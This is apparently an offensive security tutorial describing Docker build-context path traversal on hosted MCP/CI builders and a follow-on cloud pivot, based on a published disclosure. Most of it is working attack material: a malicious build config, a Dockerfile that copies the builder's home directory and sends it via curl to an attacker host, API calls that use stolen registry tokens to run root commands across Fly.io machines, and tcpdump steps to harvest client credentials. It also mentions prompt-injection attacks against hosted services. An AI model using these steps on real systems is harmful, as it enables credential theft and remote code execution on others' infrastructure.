 # Abusing Docker Build Context in Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

## TL;DR

If a CI/CD platform or hosted builder lets contributors specify the Docker build context path and Dockerfile path, you can often set the context to a parent directory (e.g., "..") and make host files part of the build context. Then, an attacker-controlled Dockerfile can COPY and exfiltrate secrets found in the builder user’s home (for example, ~/.docker/config.json). Stolen registry tokens may also work against the provider’s control-plane APIs, enabling org-wide RCE.

## Attack surface

Many hosted builder/registry services do roughly this when building user-submitted images:
- Read a repo-level config that includes:
  - build context path (sent to the Docker daemon)
  - Dockerfile path relative to that context
- Copy the indicated build context directory and the Dockerfile to the Docker daemon
- Build the image and run it as a hosted service

If the platform does not canonicalize and restrict the build context, a user can set it to a location outside the repository (path traversal), causing arbitrary host files readable by the build user to become part of the build context and available to COPY in the Dockerfile.

Practical constraints commonly observed:
- The Dockerfile must reside within the chosen context path and its path must be known ahead of time.
- The build user must have read access to files included in the context; special device files can break the copy.

## PoC: Path traversal via Docker build context

Example malicious server config declaring a Dockerfile within the parent directory context:

```yaml
runtime: "container"
build:
  dockerfile: "test/Dockerfile"   # Must reside inside the final context
  dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
  type: "http"
  configSchema:
    type: "object"
    properties:
      apiKey:
        type: "string"
    required: ["apiKey"]
  exampleConfig:
    apiKey: "sk-example123"
```

Notes:
- Using ".." often resolves to the builder user’s home (e.g., /home/builder), which typically contains sensitive files.
- Place your Dockerfile under the repo’s directory name (e.g., repo "test" → test/Dockerfile) so it remains within the expanded parent context.

## PoC: Dockerfile to ingest and exfiltrate the host context

```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```

Targets commonly recovered from $HOME:
- ~/.docker/config.json (registry auths/tokens)
- Other cloud/CLI caches and configs (e.g., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Tip: Even with a .dockerignore in the repository, the vulnerable platform-side context selection still governs what gets sent to the daemon. If the platform copies the chosen path to the daemon before evaluating your repo’s .dockerignore, host files may still be exposed.

## Cloud pivot with overprivileged tokens (example: Fly.io Machines API)

Some platforms issue a single bearer token usable for both the container registry and the control-plane API. If you exfiltrate a registry token, try it against the provider API.

Example API calls against Fly.io Machines API using the stolen token from ~/.docker/config.json:

Enumerate apps in an org:
```bash
curl -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps?org_slug=smithery"
```

Run a command as root inside any machine of an app:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
  --data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```

Outcome: org-wide remote code execution across all hosted apps where the token holds sufficient privileges.

## Secret theft from compromised hosted services

With exec/RCE on hosted servers, you can harvest client-supplied secrets (API keys, tokens) or mount prompt-injection attacks. Example: install tcpdump and capture HTTP traffic on port 8080 to extract inbound credentials.

```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
  --data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
  "https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
  --data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```

Captured requests often contain client credentials in headers, bodies, or query params.

## References

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)


